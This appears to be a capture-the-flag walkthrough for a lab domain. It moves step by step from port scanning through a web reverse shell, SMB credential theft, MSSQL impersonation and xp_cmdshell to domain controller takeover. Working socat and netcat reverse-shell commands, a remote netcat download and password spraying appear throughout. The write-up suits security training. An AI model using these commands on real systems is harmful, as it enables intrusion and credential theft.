 ### Flag 1
#### 1. Nmap Scan

First, we need to run an Nmap scan on the target domain to identify open ports and services.

```bash
nmap graylog.hackerverse.games

nc -zv 10.10.0.171 22 80 443 2>&1 | grep succeeded | awk '{print $5 " " $4 " open"}'

nc -zv 10.10.0.91 22 80 443 8080 2>&1 | grep succeeded | awk '{print $5 " " $4 " open"}'


```

**Expected Output:**
```
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
443/tcp  open  https
8080/tcp open  http-proxy
```

The key port for our attack is port 8080, which hosts the web application.

#### 2. Crafting the Python Payload

Clone the payload from the Github

```python
https://github.com/monrax/flask-image-bgremover/tree/demo/ctf
```

#### 3. Setting Up the Listener

We need to start a listener on our machine to catch the reverse shell:

```bash
cd /home/ubuntu/flask-image-bgremover-demo-ctf/ctf/scripts
python3 rshell.py
```

To handle potential NAT issues, we can use `ngrok` for port forwarding:

```bash
ngrok tcp 5003
```

Update the Python payload with the forwarded IP and port from `ngrok`.

#### 6. Receiving the Reverse Shell

After setting up a listener, run the `dropin.sh` from the location above with the URL & details of the webserver.

```bash
./dropin.sh
```
This will get you the reverse shell as.

Now this shell is not stable, so to get a stable reverse shell to perform next steps use the following command on the attacker machine.
```bash
ngrok tcp 4242
socat file:`tty`,raw,echo=0 TCP-L:4242
```

and run the following command on the unstable reverse shell.

```bash
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.10.0.63:4242
```

Make sure to change the IP address and the port number on these two commands, and also one thing to note here is that ngrok does not provide the functionality to forward two ports at one time, so to overcome this you may have a paid version or use two different machines on the same network like a virtual machine with different ngrok account.
#### 7. Enumeration

Perform enumeration to gather information about the system:

```bash
ls /var/www/DomainStuff/Creds
cat /var/www/DomainStuff/Creds/SMBPassCode.txt
```

Example SMB credentials might look like this:

```
Username: samba
Password: The_dataSMBPasscode12
```

#### 8. Checking Domain Membership

Check if the machine is domain-joined:

```bash
realm list
```

Example output might indicate the domain `hackr.games`.

#### 9. Exploring SMB Shares

Check open ports and SMB shares:

```bash
netstat -tuln | grep 'LISTEN'
smbclient -L \\\\localhost\\ -U samba%'The_dataSMBPasscode12'
```

If `MyDomainAccount` is listed, connect to it:

```bash
smbclient \\\\localhost\\MyDomainAccount -U samba%'The_dataSMBPasscode12'
```

Use `mget` to download files:

```bash
mget DomainAccount.txt
cat DomainAccount.txt
```

You may find credentials like:

```
hackr.games\operation:TheOpsPrivs@123
```

Switch to the `operation` user:

```bash
su operation@hackr.games
```

Check the home directory for flags:

```bash
ls /home/operation@hackr.games
cat /home/operation@hackr.games/flag.txt
```

**Flag 1:**
```
flag{S4Mb4_Sh4r3_Sh0uld_Not_C0Nt4in_Cr3d$}
```

### Flag 2
#### 10. Domain Controller Access

Identify the domain controller by checking `/etc/hosts`:

```bash
cat /etc/hosts
```

Example entries:

```
10.10.1.252 hackr.games
10.10.1.252 dc.hackr.games
10.10.0.91  web.hackr.games
```

Spray the credentials on the domain controller:

```bash
crackmapexec smb 10.10.1.252 -u operation -p 'TheOpsPrivs@123'
```

If successful, use `winrm` to log in:

```bash
crackmapexec winrm 10.10.1.252 -u operation -p 'TheOpsPrivs@123'
```

#### 11. Exploring MSSQL Server

Check open ports and MSSQL server login:

```bash
nmap 10.10.1.252
crackmapexec mssql 10.10.1.252 -u operation -p 'TheOpsPrivs@123'
```

Login to MSSQL:

```bash
impacket.mssqlclient HACKR/operation:'TheOpsPrivs@123'@10.10.1.252 -windows-auth
```

Enumerate impersonation privileges:

```sql
enum_impersonate
```

The above `enum_impersonate` command will list the impersonation privileges. Here we can see that the user `operation` can impersonate the user `sys-admin`. Let's do it and get the flag 2.

This will impersonate the user:

```sql
exec_as_login sys-admin
```

List all of the tables user `sys-admin` has access to:

```sql
select * from information_schema.tables
```

We found the table named `flag`, let's dump the flag out and emulate the data exfiltration:

```sql
select * from flag
```

Output:
```
flag{MSSQL_Flag_With_IMPERSONATION}
```

### Flag 3
#### 12. Enabling `xp_cmdshell`

Enable `xp_cmdshell` to execute system commands:

```sql
enable_xp_cmdshell
```

#### 13. Getting Reverse Shell on Domain Controller

Prepare the environment for a reverse shell by taking another reverse shell and running these commands so we can get the shell from the `DC` using `netcat`:

```bash
crackmapexec winrm 10.10.1.252 -u operation -p 'TheOpsPrivs@123' -X 'mkdir C:\Temp'  

crackmapexec winrm 10.10.1.252 -u operation -p 'TheOpsPrivs@123' -X "Invoke-WebRequest -Uri 'https://eternallybored.org/misc/netcat/netcat-win32-1.11.zip' -OutFile \"C:\Temp\netcat-win32-1.11.zip\""

crackmapexec winrm 10.10.1.252 -u operation -p 'TheOpsPrivs@123' -X "Expand-Archive -Path \"C:\Temp\netcat-win32-1.11.zip\" -DestinationPath \"C:\Temp\""
```

Execute `nc` to get a shell, but before this get another reverse shell on a web server and start a listener on it:

```bash
nc -nvlp 3333
```

Now we can do it:

```sql
xp_cmdshell "powershell -ep bypass C:\Temp\netcat-1.11\nc64.exe 10.10.0.91 3333 -e powershell"
```

Read the final flag:

```bash
type C:\Users\Administrator\Desktop\flag.txt
```

**Flag 3:**
```
flag{The_XP_cmd_is_R34lly_B4DD!!!}
```